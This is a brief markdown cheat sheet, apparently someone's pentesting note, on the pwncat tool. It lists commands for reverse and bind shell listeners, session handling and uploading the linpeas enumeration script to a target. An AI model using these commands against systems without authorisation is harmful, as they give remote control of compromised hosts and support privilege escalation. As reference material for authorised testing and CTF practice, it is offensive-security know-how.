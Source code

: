 ```yaml
---
tags:
---
```

# pwncat

Automate reverse shell connections

## Capabilities

```bash
pwncat-cs

# Reverse shell
pwncat-cs -lp 9001

# Bind shell
pwncat-cs 192.168.1.1 9001

# List sessions
sessions

# Linux listener


# Windows listener
listen --platform windows 9001
sessions 0

# Upload file (local mode)
upload linpeas.sh


```

Drop into a session with `Ctrl + d` (toggle between `local` and `remote` mode)

Prefix a command with the word `local` inside a shell to run commands locally

If you need to send `Ctrl + d` or `Ctrl + k` to the target, prefix with `Ctrl + k`

